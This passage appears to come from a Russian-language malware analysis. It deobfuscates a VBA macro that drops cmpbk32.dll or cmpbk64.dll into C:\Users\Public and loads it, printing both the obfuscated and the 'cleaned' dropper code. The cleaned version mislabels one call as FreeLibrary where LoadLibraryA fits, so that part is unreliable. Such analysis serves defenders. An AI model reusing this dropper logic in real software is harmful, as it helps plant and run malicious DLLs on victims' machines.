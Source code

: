 В итоге получаем следующие данные:
st = C:\Users\Public;
bb = cmpbk32.dll;
dd = cmpbk64.dll;
cc = INIT.

Здесь C:\Users\Public – директория куда будут дропаться вредоносные файлы cmpbk32.dll и INIT или cmpbk64.dll и INIT (зависит от архитектуры). Далее в функции идёт следующий код:

```vbnet
#If Win64 Then
    
    Dim hd As LongPtr
    hd = zz(dd)
    If Not hd = 0 Then
        zzzz (hd)
    Else
        wafll st + "\" + dd, accef34Decode(UserForm1.Label2), CByte(73), 1
        h = zzz(st & "\" + dd)
        FR
    End If
    
    #Else
    
    Dim hd As Long
    hd = zz(bb)
    If Not hd = 0 Then
        zzzz (hd)
    Else
        h = zzz(st & "\" + bb)
        FR
    End If
#End If
```

Зная значения переменных и алиасов мы можем «причесать» код:

```vbnet
#If Win64 Then
    

    Dim hd As LongPtr
    hd = GetModuleHandleA(cmpbk64.dll)
    If Not hd = 0 Then
        FreeLibrary(hd)
    Else
        wafll C:\Users\Public + "\" + cmpbk64.dll, accef34Decode(UserForm1.Label2), CByte(73), 1
        h = FreeLibrary(C:\Users\Public & "\" + cmpbk64.dll)
        R1
    End If
    
    
    #Else
    
    Dim hd As Long
    hd = GetModuleHandleA(cmpbk32.dll)
    If Not hd = 0 Then
        FreeLibrary(hd)
    Else
        h = LoadLibraryA(C:\Users\Public & "\" + cmpbk32.dll)
        R1
    End If
#End If
```
